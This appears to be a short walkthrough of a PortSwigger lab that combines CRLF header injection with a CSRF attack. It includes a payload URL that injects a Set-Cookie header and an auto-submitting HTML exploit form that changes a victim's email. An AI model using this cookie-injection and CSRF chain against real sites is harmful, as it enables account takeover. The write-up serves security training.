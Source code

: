 #CSRF #CSRF-Tokens 

CSRF where token is tied to non-session cookie: [link](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

**What is CRLF :**

CRLF Injection is a web security vulnerability that arises when an attacker injects unexpected Carriage Return (CR) (\r) and Line Feed (LF) (\n) characters into an application. These characters are used to signify the end of a line and the start of a new one in network protocols like HTTP, SMTP, and others. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

**What is SameSite Cookie :**
*SameSite cookie = YES* → The cookie is only sent **when you’re on the same site** (not from 
other sites).

to solve this challenge you should inject you *csrf cookie* in victim browser we can do this using CRLF and for sending cookies using form we will use *SameSite* 

* First, I injected cookies. There is a cookie called **LastSearch** that stores the value of the last thing you searched for. `web-security-academy.net/?search=Payload`
* i will replace payload with `%0d%0a` for CRLF and `Set-Cookie: csrfKey=myCookie;` for overwrite value of cookies and `SameSite=None` for send cookies form anywhere.

payload:
`https://0a62002503981edb83bd19c000c0000a.web-security-academy.net/?search=cc%0d%0aSet-Cookie:%20csrfKey=kJzdXA7VqbehLOl9uIx11X0XdsPncdwb%3bSameSite=None`

and this is the form :
```
<html>
	<form action="https://0a62002503981edb83bd19c000c0000a.web-security-academy.net/my-account/change-email" method="POST">
		<input required="" type="email" name="email" value="newE2mailf@gmail.com">
		<input required="" type="hidden" name="csrf" value="f4SXoM3LHbftgIGGF06fc4TdjtTAYRz6">
		<button class="button" type="submit"> Update email </button>
	</form>
	<img src="https://.web-security-academy.net/?search=cc%0d%0aSet-Cookie:%20csrfKey=kJzdXA7VqbehLOl9uIx11X0XdsPncdwb%3bSameSite=None" onerror="document.forms[0].submit()">
</html>


```